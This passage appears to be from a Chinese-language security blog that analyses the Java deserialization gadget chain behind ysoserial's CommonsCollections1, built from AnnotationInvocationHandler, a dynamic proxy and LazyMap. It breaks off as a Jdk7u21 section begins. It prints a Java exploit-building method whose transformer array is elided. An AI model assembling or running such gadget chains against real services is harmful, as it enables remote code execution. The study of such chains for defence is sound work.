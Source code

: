 ```java
}
```

看[ysoserial_CommonsCollection1](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java)并不是使用上述exp，而是使用动态代理的方式来触发。

我们发现`jdk1.7.0_21.jdk/Contents/Home/jre/lib/rt.jar!/sun/reflect/annotation/AnnotationInvocationHandler.class`本身就是一个中介类：

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190926161423.png)

在它的`invoke`调用了`get`方法：

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190926161519.png)

这就跟jdk1.8的exp有点相似了：

`commons-collections-3.1.jar!/org/apache/commons/collections/map/LazyMap.class`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190811005403.png)

exp如下：

```java
public static Object getObject(String command) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException {
    Transformer[] transformers = new Transformer[] {
      //......    
    };
    Transformer chainedTransformer = new ChainedTransformer(transformers);

    Map map = new HashMap();
    Map lazyMap = LazyMap.decorate(map, chainedTransformer);

    Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler"); //类无法直接声明，需要反射调用
    Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);

    InvocationHandler ih = (InvocationHandler) constructor.newInstance(Target.class, lazyMap); //实例化中介类
    Map mapProxy = (Map) Proxy.newProxyInstance(CommonCollection1.class.getClassLoader(), new Class[] {CommonCollection1.class}, ih); //实例化代理类
    Object object = constructor.newInstance(Target.class, mapProxy); //这里是生成序列化使用的对象，注意与上面区分
    return object;
}
```

### JDK

#### Jdk7u21

还是从利用点逆推的方式进行分析。
